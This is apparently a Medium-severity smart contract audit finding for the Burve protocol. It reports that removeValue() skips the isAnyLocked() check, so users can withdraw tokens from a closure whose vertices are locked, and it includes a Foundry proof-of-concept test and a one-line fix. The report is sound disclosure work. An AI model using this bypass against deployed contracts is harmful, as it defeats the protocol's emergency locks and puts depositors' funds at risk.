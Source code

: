 Damaged Admiral Grasshopper

Medium

# User can remove tokens from a closure with locked vertex

### Summary

No `isAnyLocked()` check implemented in `removeValue()`, leading to values can be removed even if there are locked vertexes in a closure.

### Root Cause

When user tries to remove tokens through [removeValueSingle()](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L245-L251) and [removeTokenForValue()](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L335-L342), there is a check to see if there is any locked token in the closure.

[ClosureImpl::removeTokenForValue()](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L343):
```solidity
        require(!isAnyLocked(self), CannotRemoveWithLockedVertex(self.cid));
```

However, the same check if not implemented in [removeValue()](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L216-L220), as a result, user can remove tokens from a closure with locked vertex.

### Internal Pre-conditions

Vertex is locked in a closure.

### External Pre-conditions

None

### Attack Path

None

### Impact

User can remove tokens from a closure with locked vertex.

### PoC

Please run `forge test --mt testAudit_RemoveWhenVertexesAreLocked`.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import "forge-std/Test.sol";
import "./mocks/MockERC20.sol";
import "openzeppelin-contracts/mocks/docs/ERC4626Fees.sol";
import {VaultType} from "../src/multi/vertex/VaultPointer.sol";
import "../src/multi/Diamond.sol";
import "../src/integrations/adjustor/MixedAdjustor.sol";
import "../src/integrations/adjustor/DecimalAdjustor.sol";

contract AuditTest is Test {
    uint8 constant MAX_TOKENS = 16;

    address owner = makeAddr("OWNER");
    address diamond;

    MockERC20 tokenA = new MockERC20("Token A", "A", 18);
    MockERC20 tokenB = new MockERC20("Token B", "B", 6);

    MockERC4626WithFees vaultA = new MockERC4626WithFees(tokenA, "Vault A", "VA");
    MockERC4626WithFees vaultB = new MockERC4626WithFees(tokenB, "Vault B", "VB");

    function setUp() public {
        vm.startPrank(owner);

        BurveFacets memory facets;

        {
            address vauleFacet = address(new ValueFacet());
            address valueTokenFacet = address(new ValueTokenFacet());
            address simplexFacet = address(new SimplexFacet());
            address swapFacet = address(new SwapFacet());
            address vaultFacet = address(new VaultFacet());
            MixedAdjustor mixedAdjustor = new MixedAdjustor();
            // Configure adjustor
            {
                DecimalAdjustor decimalAdjustor = new DecimalAdjustor();
                mixedAdjustor.setAdjustor(address(tokenB), address(decimalAdjustor));
            }
            address adjustor = address(mixedAdjustor);

            facets = BurveFacets({
                valueFacet: vauleFacet,
                valueTokenFacet: valueTokenFacet,
                simplexFacet: simplexFacet,
                swapFacet: swapFacet,
                vaultFacet: vaultFacet,
                adjustor: adjustor
            });
        }

        diamond = address(new SimplexDiamond(facets, "ValueToken", "BVT"));

        vm.label(diamond, "Diamond");
        vm.label(address(tokenA), "Token A");
        vm.label(address(tokenB), "Token B");
        vm.label(address(vaultA), "Vault A");
        vm.label(address(vaultB), "Vault B");

        // Add Vertex
        {
            // TokenA
            SimplexFacet(diamond).addVertex(address(tokenA), address(vaultA), VaultType.E4626);

            // TokenB
            SimplexFacet(diamond).addVertex(address(tokenB), address(vaultB), VaultType.E4626);
        }

        // Add Closure
        {
            bool success;

            uint16 cid = 3; // 0b11
            uint128 startingTarget = 1e12;
            uint128 baseFeeX128 = 0;
            uint128 protocolTakeX128 = 0;
            // uint128 baseFeeX128 = 34028236692093846346337460743176821145; // 10%
            // uint128 protocolTakeX128 = 34028236692093846346337460743176821145;  //10%

            uint256 amountA = startingTarget / 10 ** (18 - tokenA.decimals());
            uint256 amountB = startingTarget / 10 ** (18 - tokenB.decimals());

            tokenA.mint(owner, amountA);
            tokenA.approve(diamond, amountA);
            tokenB.mint(owner, amountB);
            tokenB.approve(diamond, amountB);
            SimplexFacet(diamond).addClosure(cid, startingTarget, baseFeeX128, protocolTakeX128);
        }

        vm.stopPrank();
    }

    function testAudit_RemoveWhenVertexesAreLocked() public {
        uint16 cid = 3;

        // Alice adds value
        address alice = makeAddr("Alice");
        tokenA.mint(alice, 100e18 + 1);
        tokenB.mint(alice, 100e6 + 1);

        vm.startPrank(alice);
        tokenA.approve(diamond, 100e18 + 1);
        tokenB.approve(diamond, 100e6 + 1);
        ValueFacet(diamond).addValue(alice, cid, 200e18, 0);
        vm.stopPrank();

        vm.startPrank(owner);
        LockFacet(diamond).lock(address(tokenA));
        LockFacet(diamond).lock(address(tokenB));
        vm.stopPrank();

        // Vertexes are locked
        assertTrue(LockFacet(diamond).isLocked(address(tokenA)));
        assertTrue(LockFacet(diamond).isLocked(address(tokenB)));

        // Alice can successfully remove even if a vertex is locked
        vm.prank(alice);
        ValueFacet(diamond).removeValue(alice, cid, 200e18, 0);
    }
}

contract MockERC4626WithFees is ERC4626Fees {

    uint256 entryFeeBasisPoints;
    uint256 exitFeeBasisPoints;
    address feeRecipient;

    constructor(
        IERC20 asset_, 
        string memory name_, 
        string memory symbol_
    ) ERC4626(asset_) ERC20(name_, symbol_) {
        feeRecipient = msg.sender;
    }

    function setEntryFee(uint256 entryFeeBasisPoints_) public {
        entryFeeBasisPoints = entryFeeBasisPoints_;
    }

    function setExitFee(uint256 exitFeeBasisPoints_) public {
        exitFeeBasisPoints = exitFeeBasisPoints_;
    }

    function _entryFeeBasisPoints() internal view override returns (uint256) {
        return entryFeeBasisPoints;
    }

    function _exitFeeBasisPoints() internal view override returns (uint256) {
        return exitFeeBasisPoints;
    }

    function _entryFeeRecipient() internal view override returns (address) {
        return feeRecipient;
    }

    function _exitFeeRecipient() internal view override returns (address) {
        return feeRecipient;
    }
}
```

_No response_

### Mitigation

Adding `isAnyLocked()` in `removeValue()`.